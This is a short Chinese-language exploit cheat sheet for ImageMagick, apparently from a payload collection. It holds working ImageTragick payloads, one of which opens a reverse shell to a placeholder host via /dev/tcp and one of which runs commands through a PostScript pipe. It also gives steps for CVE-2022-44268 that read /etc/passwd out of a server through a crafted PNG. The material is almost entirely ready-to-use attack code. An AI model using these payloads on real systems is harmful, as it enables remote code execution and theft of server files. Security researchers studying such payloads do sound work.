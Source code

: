 # ImageMagick Exploits

## ImageTragik Exploit v1

反弹shell

```powershell
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/ip/80 0<&1 2>&1'
pop graphic-context
pop graphic-context
```

## ImageTragik Exploit v2

Simple `id` payload

```powershell
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```

然后使用 `convert shellexec.jpeg whatever.gif`


## CVE-2022-44268

信息泄露：插入任意远程文件的内容

* 生成payload
    ```ps1
    apt-get install pngcrush imagemagick exiftool exiv2 -y
    pngcrush -text a "profile" "/etc/passwd" exploit.png
    ```

* 通过上传文件触发攻击。后端可能会使用类似`Convert pngout.png pngConverted.png`的内容。
* 下载转换后的图片，查看图片内容，具体方式为：`identify -verbose pngconverted.png`
* 转换过滤出的数据： `python3 -c 'print(bytes.fromhex("HEX_FROM_FILE").decode("utf-8"))'` 


## 致谢

* [openwall.com/lists/oss-security/2018/08/21/2 by Tavis Ormandy](http://openwall.com/lists/oss-security/2018/08/21/2)